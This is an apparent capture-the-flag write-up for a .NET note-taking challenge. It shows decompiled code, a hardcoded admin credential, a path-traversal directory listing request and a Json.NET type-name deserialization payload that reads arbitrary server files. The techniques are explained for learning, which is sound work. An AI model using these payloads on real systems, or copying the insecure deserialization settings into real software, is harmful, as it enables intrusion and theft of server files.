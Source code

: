 ```yaml
---
title: "Notesafe"
description: 
date: 2025-07-02T23:48:26Z
image: 
---
```



Welcome to NoteSafe, the ultra-secure note-taking app that protected by "Bitcoin-style encryption"™. Store your deepest thoughts and sensitive files behind a digital vault crafted by developers who read just enough of the Bitcoin whitepaper to feel dangerous.

But how safe is NoteSafe, really?

Can you bypass the crypto-hype, dig through the interface, and uncover what they've desperately tried to hide? A flag waits for the one who can see through the buzzwords and break the illusion of security.

## Writeup

1. There are many dotnet DLL files. We can use JetBrain's dotPeek to disassemble them.
2. There is an interesting code in `NoteSafe.Services.DatabaseService`

```cs
  private async Task SeedDatabaseAsync()
  {
    try
    {
      if (!await this.CheckTableExistsAsync("Users"))
        LoggerExtensions.LogWarning((ILogger) this._logger, "Users table does not exist, cannot seed database.", Array.Empty<object>());
      else if (await this._context.Users.CountAsync<User>() > 0)
      {
        LoggerExtensions.LogInformation((ILogger) this._logger, "Database already has users, skipping seed.", Array.Empty<object>());
      }
      else
      {
        User adminUser = new User()
        {
          Username = "admin",
          PasswordHash = "240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9",
          CreatedAt = DateTime.UtcNow
        };
        this._context.Users.Add(adminUser);
        int num1 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added admin user to database.", Array.Empty<object>());
        this._context.Notes.Add(new Note()
        {
          Title = "Secret Flag",
          Content = "FLAG{this_flag_is_not_the_flag}",
          CreatedAt = DateTime.UtcNow,
          UpdatedAt = DateTime.UtcNow,
          UserId = adminUser.Id
        });
        int num2 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added flag note to database.", Array.Empty<object>());
        adminUser = (User) null;
      }
    }
    catch (Exception ex)
    {
      LoggerExtensions.LogError((ILogger) this._logger, ex, "Error seeding database.", Array.Empty<object>());
      throw;
    }
  }
```
- The password is `admin123`
2. Let's log in as admin:admin123 ![dashboard](Pasted image 20250627215718.png)
	- Alright we are in
3.  The flag does not work ![does not work](Pasted image 20250627215948.png)
4. We can get directory listing like this:
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
5. Note: It is most probably an insecure deserialisation problem
```cs
  public async Task<Note> CreateNoteAsync(string jsonPayload, int userId)
  {
    Note noteAsync;
    try
    {
      try
      {
        Note note = JsonConvert.DeserializeObject<Note>(jsonPayload);
        if (note != null)
        {
          note.UserId = userId;
          note.CreatedAt = DateTime.UtcNow;
          note.UpdatedAt = DateTime.UtcNow;
          this._context.Notes.Add(note);
          int num = await this._context.SaveChangesAsync();
          noteAsync = note;
          goto label_15;
        }
        note = (Note) null;
      }
      catch
      {
      }
      object obj1 = JsonHelper.DeserializeObject<object>(jsonPayload);
      PropertyInfo[] properties = obj1.GetType().GetProperties();
      Dictionary<string, object> dictionary = new Dictionary<string, object>();
      foreach (PropertyInfo propertyInfo in properties)
      {
        try
        {
          object obj2 = propertyInfo.GetValue(obj1); // creating the object
          dictionary[((MemberInfo) propertyInfo).Name] = obj2;
        }
        catch
        {
          dictionary[((MemberInfo) propertyInfo).Name] = (object) "[Error reading property]";
        }
      }
      throw new InvalidOperationException("Invalid object type. Debug info: " + JsonConvert.SerializeObject((object) dictionary)); // we want to trigger this
    }
    catch (Exception ex)
    {
      throw;
    }
label_15:
    return noteAsync; // we dont want this
  }
```
Reason for the vulnerability: `JsonHelper.DeserializeObject<object>`
```cs
public static T DeserializeObject<T>(string json)
  {
    try
    {
      JsonSerializerSettings settings = new JsonSerializerSettings()
      {
        TypeNameHandling = TypeNameHandling.All,
        SerializationBinder = (ISerializationBinder) null,
        TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,
        ConstructorHandling = ConstructorHandling.AllowNonPublicDefaultConstructor,
        PreserveReferencesHandling = PreserveReferencesHandling.Objects,
        MetadataPropertyHandling = MetadataPropertyHandling.ReadAhead
      };
      return JsonConvert.DeserializeObject<T>(json, settings);
    }
    catch
    {
      throw;
    }
  }
```
- `T` can be only object, so we can deserialize any object we want.
6. Our JSON payload:
First, We identify our gadget: In this case, our gadget is  FileSystemService object as it will read file and store it as an instance variable
```cs
public class FileSystemService
{
  public string FilePath { get; set; } // we can set FilePath

  public FileSystemService()
  {
  }

  public FileSystemService(string filePath) => this.FilePath = filePath;

  public string ReadFileAsString(string path = null)
  {
    string str = path ?? this.FilePath;
    if (string.IsNullOrEmpty(str))
      return (string) null;
    try
    {
      return File.Exists(str) ? File.ReadAllText(str) : (string) null;
    }
    catch (Exception ex)
    {
      return (string) null;
    }
  }

  public string FileContents // file contents is leaked here
  {
    get => this.ReadFileAsString();
    set
    {
    }
  }
	<snip>
}

```
We need to get information about the assembly and type from dotPeek
```
// Decompiled with JetBrains decompiler
// Type: NoteSafe.Services.FileSystemService
// Assembly: NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: 50FA2D5F-03F2-4E88-B45C-760E5B77FEB8
// Assembly location: C:\Users\Khiew\Downloads\NoteSafe\NoteSafe\FOR_PLAYER\NoteSafe\NoteSafe\NoteSafe.dll
```
To build our payload,
```json
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../../flag.txt"}
```
Output:
```http
HTTP/1.1 400 Bad Request

Content-Type: text/plain; charset=utf-8

Date: Fri, 27 Jun 2025 23:43:28 GMT

Server: Kestrel

Content-Length: 127



Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"flag{fake_flag}"}
```
7. However, this will not work in remote. This is because the organizer changed the name of the flag file. To find the new name, list the directory with the endpoint previously
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
Output:
```json
{"currentPath":"/app/../../","files":[{"name":"flag-hLS1iTUpUV.txt","path":"/app/../../flag-hLS1iTUpUV.txt","size":36,"lastModified":"2025-06-19T20:56:28.7842621+00:00"},{"name":".dockerenv","path":"/app/../../.dockerenv","size":0,"lastModified":"2025-06-27T23:38:41.8432009+00:00"}], <snip>}
```
- The path is `/app/../../flag-hLS1iTUpUV.txt`
8. To get the flag,
```http
POST /api/Notes HTTP/1.1
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../flag-hLS1iTUpUV.txt"}
```
Output:
```
Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"prelim{buzzw0rd5_4r3_n0t_3ncrypt10n}"}
```
